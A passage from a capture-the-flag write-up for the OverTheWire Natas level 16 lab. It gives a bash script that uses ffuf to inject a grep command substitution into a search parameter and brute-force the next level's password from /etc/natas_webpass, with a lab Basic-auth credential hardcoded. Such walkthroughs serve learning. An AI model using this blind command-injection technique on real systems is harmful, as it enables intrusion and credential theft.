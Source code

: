 Now we got our second character, to get the third character we have to prepend `Xk` to the command. This process repeats unitil we find the entire password. So I have created a simple bash script to automate this process:

{% code lineNumbers="true" %}
```bash
#! /bin/bash

PASSWORD=""

for i in {1..32} # Since we know the length of the password is 32
do
    PASSWORD+=$(ffuf -w alphanumeric.txt:FUZZ -u "http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5E"$PASSWORD"FUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search" -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms" -v | grep "* FUZZ:" | cut -d ':' -f 2 | tr -d ' ')
done

echo Password = $PASSWORD
```
{% endcode %}

It's time to run the script:

<figure><img src=".gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

And finally we got the password for the next level.

<figure><img src=".gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>